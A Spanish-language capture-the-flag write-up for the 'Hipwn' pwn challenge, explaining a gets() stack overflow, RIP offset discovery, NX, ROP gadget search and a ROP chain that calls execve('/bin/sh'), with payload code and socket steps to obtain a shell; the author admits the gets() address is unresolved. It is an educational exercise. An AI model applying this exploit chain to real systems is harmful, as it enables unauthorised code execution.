# Hipwn

### Categoría: Pwn

--------------------------

#### Descarga de Gdb-peda

Primero descargamos el plugin de Gdb para tener Gdb-peda:


Creamos el fichero .gdbinit:



#### Estudio del código

Ejecutamos el binario y vemos que hay que incluir el "nombre de tu equipo":



Si vemos el código, utiliza el método vulnerable "gets()", al que se le pasa un buffer de tamaño 0x100 (o 264):



#### Control de EIP

Esta función es vulnerable a buffer overflows. Lo primero es ver si podemos controlar el registro RIP (que es como el EIP de 32 bits). 

Podemos generar los "patterns" de manera rápida con gdb-peda con el comando siguiente, que crea un fichero en el directorio en el que gdb está corriendo:



Sin embargo, en este caso lo puedes ir probando a mano, hasta que se llega a que con 268 caracteres podemos sobrescribir el registro RIP. Ejecutamos el comando siguiente y gdb-peda nos muestra el valor de los registros cuando se genera la excepción.

```
run <<< $(python -c "print 'A'*268)
```





Además podemos ir viendo dónde se va quedando lo que estamos metiendo. Por ejemplo, el valor de RDI es ("Hi "+"AAAA..."). Podemos ver el contenido de una dirección con:

```
x/10x ADDRESS
```



Si ahora enviamos todo NOPs y sobrescribimos el RIP con seis As, podemos ver que si pudiésemos saltar a la dirección 0x604698 nos iría genial para meter un shellcode, ejecutarlo y ser felices:

```
run <<< $(python -c "print '\x90'*264+'A'*6")
```



#### ROPs 

Pero aunque lo intentemos, no podremos porque al estar habilitadp el NX, el stack no es ejecutable. Las medidas de seguridad que tiene el binario se pueden ver con *checksec* de GDB ([aquí explican algunas de estas protecciones](http://blog.siphos.be/2011/07/high-level-explanation-on-some-binary-executable-security/)):



Por tanto, no podemos hacer el BOF típico sino que hay hacer un [ROP](https://en.wikipedia.org/wiki/Return-to-libc_attack).

En primer lugar, tenemos que saber cómo se hacen las llamadas al sistema o syscalls en 64 bits, que son distintas a como se hacen en 32 bits. Hay que tener en cuenta que en función del valor de RAX ([aquí tenemos los posibles valores de RAX](https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/)) se hará una llamada u otra, y que el resto de argumentos van en otros registros empezando por RDI, RSX y RDI:



#### Estudio del binario

Ahora hay que mirar cómo está hecho el binario:

- Stripped: No hay debugging symbols 

- Statically linked: Las funciones de libc (puts, printf, gets) están embebidas en el binario 

Esto hace que este binario sea problemático:

- No puedo usar "*objdump -D BINARIO*" o "*nm -D BINARIO*" para ver "debugging symbols" (por ser "Stripped")

- No está cargado lib.so en el binario, lo podríamos haber usado para sacar direcciones de algunas funciones en lugar de buscarlas dentro del binario (por ser "Statically linked")



#### Encontrar gadgets para el ROP

Ahora tenemos que buscar los "gadgets" en el binario. Para esto utilizamos el programa de [Github ROPgadget](https://github.com/JonathanSalwan/ROPgadget). Lo ejecutamos y muestra todos los gadgets:

```
python ROPgadget/ROPgadget.py --binary chall
```



Lo que queremos hacer es una llamada al sistema. Para eso vamos a buscar los gadgets de los registros RAX, RDI, RSI, RDX y de las Syscalls:





De lo que RDI es "const char filename" (nombre del fichero), RSI es "const char const argv[]" (argumentos de entrada) y  RDX es "const char const envp[" (no relevante en este caso).

Lo que tenemos que buscar en la salida de ROPgadget son de este tipo:

- pop rax; ret; 

- pop rdi; ret; 

- pop rsi; ret; <- La única que no está, pero hay una parecida

- pop rdx; ret; 

- syscall; ret; 



#### Creando el exploit

Lo que tenemos entonces es:

- 0x0000000000400121: pop rax; ret; 

- 0x000000000040141c: pop rdi; ret; 

- 0x000000000040141a: pop rsi; pop r15; ret; 

- 0x00000000004023f5: pop rdx; ret; 

- 0x00000000004024dd: syscall; ret; 

Lo que queremos hacer es una llamada execve que haga "/bin/sh", para que el proceso pase a ejecutar una shell. Copiado de [aquí](https://hackmd.io/@ptr-yudai/B1M5LpWrI) tenemos que se traduce a lo siguiente, relacionado con las capturas de pantalla anteriores:

```
mov rdi, "/bin/sh\0"
mov rsi, 0
mov rdx, 0
mov rax, 59 
syscall
```

Es decir:

- A RAX un 59 (0x3b) (lo hacemos directamente)

- A RDI algo que apunte al string "/bin/sh" (esto nos puede liar)

- A RSI un 0 (esto solo nos puede liar que es *pop rsi; pop r15; ret;* y no *pop rsi; ret;*)

- A RDX un 0 (lo hacemos directamente)


Respecto a lo de RDI, la dirección 0x40141a tiene el gadget *pop rsi; pop r15; ret*. Lo de R15 en este caso nos da igual así que podemos meter cualquier cosa, pero no es problema porque podemos meter un valor en RSI. Entonces cuando vayamos a crear el payload final, haremos algo como esto:

```
payload += p64(0x40141a) <== La dirección de POP RSI; POP R15; RET

payload += p64(0)        <== Lo que meteremos en RSI

payload += p64(0)        <== Lo que meteremos en R15, podría ser cualquier cosa salvo que sea un registro que nos fuese relevante
```

Ahora tenemos que meter en una dirección el "/bin/sh" y meter esa dirección en RDI. Para eso vamos a almacenar lo que mande el usuario en una dirección en la que se pueda escribir. La gente usa la zona BSS pero no directamente esa dirección sino que dejamos como 0x200 más, 0x604440.



Con esto en mente la idea sería utilizar un código parecido a esto:

```
payload += p64(0x40141c) <== La dirección de POP RDI; RET

payload += p64(0x604440) <== La dirección de BSS donde vamos a escribir

payload += p64(addr_gets)<== Lo que escribiremos, que será lo que envíe el usuario (supongo xD)
```

Con esto nos quedaría una primera parte del exploit:

```
payload = "A"*264   <== A partir de ese caracter tenemos el buffer overflow

payload += p64(0x40141c) <== La dirección de POP RDI; RET

payload += p64(0x604440) <== La dirección de BSS donde vamos a escribir

payload += p64(addr_gets)<== Lo que escribiremos, que será lo que envíe el usuario


payload += p64(0x400121) <== La dirección de POP RAX; RET

payload += p64(59)       <== El valor 59 para hacer la llamada EXECVE


payload += p64(0x40141c) <== La dirección de POP RDI; RET

payload += p64(0x604440) <== La dirección de BSS donde hemos escrito, luego apunta a un string "/bin/sh" (es lo que queríamos)


payload += p64(0x40141a) <== La dirección de POP RSI; POP R15; RET

payload += p64(0)        <== Lo que meteremos en RSI

payload += p64(0)        <== Lo que meteremos en R15, cualquier basura


payload += p64(0x4023f5) <== La dirección de POP RDX; RET

payload += p64(0)        <== Lo que meteremos en RDX


payload += p64(0x4024dd) <== La dirección de SYSCALL; RET

```

Falta abrir el socket, enviar el comando que lo leerá el gets() y leer la flag... pero en nuestro caso a la próxima xDD

```
sock = Socket(HOST, PORT)  <== Otra opción: sock = remote(HOST, PORT)

sock.recvline()

sock.sendline(payload)     <== Mandamos todo el payload que hemos creado

sock.sendline("/bin/sh")   <== Mandamos un comando que se escribirá en la parte de BSS que hemos indicado antes

sock.interactive()         <== Tras esto tendríamos la shell
```
#### Lo que falta

No sabemos cómo sacar la dirección de la función gets() del binario! Se supone que es 0x4004ee pero no lo consigo sacar de manera rápida, supongo que hay que meterse a fondo con IDA o algo parecido.

#### Alternativa 

La alternativa para no utilizar la dirección de la función gets() es lo que hacen [aquí](https://github.com/kam1tsur3/2020_CTF/blob/master/zer0pts/pwn/hipwn/solve.py), donde hace dos llamadas al sistema:

- La primera hace un READ con RAX(0), RDI(0), RSI(Dirección del BSS), RDX(0x200)

- La segunda hace un EXECVE con RAX(59), RDI(Dirección del BSS), RSI(Dirección del BSS+0x8), RDX(0)

### Writeups

https://d4mianwayne.github.io/posts/zer0pts-hipwn

https://hackmd.io/@ptr-yudai/B1M5LpWrI

https://github.com/kam1tsur3/2020_CTF/blob/master/zer0pts/pwn/hipwn/README.md
